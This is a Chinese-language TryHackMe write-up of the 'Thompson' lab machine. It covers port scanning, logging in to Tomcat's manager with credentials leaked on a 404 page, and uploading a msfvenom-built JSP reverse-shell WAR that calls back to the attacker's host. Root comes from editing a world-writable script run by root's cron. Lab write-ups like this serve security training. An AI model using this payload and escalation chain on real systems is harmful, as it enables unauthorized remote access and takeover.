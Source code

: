 ```yaml
---
sidebar_position: 54
tags: [Easy, Linux, Tomcat, 定时任务]
title: Thompson
description: Thompson
sidebar_label: Thompson
slug: /tryhackme/54
---
```

# Thompson
## 端口扫描

```bash
root@ip-10-10-149-225:~/bsidesgtthompson# nmap -sTCV -p 22,8009,8080 --min-rate 1000 10.10.172.5

Starting Nmap 7.60 ( https://nmap.org ) at 2023-08-31 10:10 BST
Nmap scan report for ip-10-10-172-5.eu-west-1.compute.internal (10.10.172.5)
Host is up (0.00016s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (EdDSA)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5
MAC Address: 02:91:A7:93:A0:A3 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.73 seconds
```

## 8080 - Tomcat

访问该页面发现是 Tomcat 默认页面, 接着我访问管理后台但是需要凭证, 此时我拒绝可以发现在 404 页面有一个凭证

![20240702212310](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240702212310.png)

使用这个凭证我们就可以上传后门

## 后渗透
### tomcat
使用 MSF 生成 WAR 后门并上传

```bash
root@ip-10-10-149-225:~/bsidesgtthompson# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.149.225 LPORT=4444 -f war > shell.war
Payload size: 1095 bytes
Final size of war file: 1095 bytes

root@ip-10-10-149-225:~/bsidesgtthompson#
```

![20240702212406](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240702212406.png)

上传之后我们就可以访问

![20240702212416](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240702212416.png)

### tomcat --> root
我发现一个定时任务以 root 身份运行, 并且我可以修改这个定时任务执行的脚本文件

```bash
(remote) tomcat@ubuntu:/home/jack$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *	* * *	root	cd /home/jack && bash id.sh
#
(remote) tomcat@ubuntu:/home/jack$ ls -al id.sh
total 48
drwxr-xr-x 4 jack jack 4096 Aug 23  2019 .
drwxr-xr-x 3 root root 4096 Aug 14  2019 ..
-rwxrwxrwx 1 jack jack   26 Aug 14  2019 id.sh

```

修改这个 `id.sh` 来获取 Shell

![20240702212439](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240702212439.png)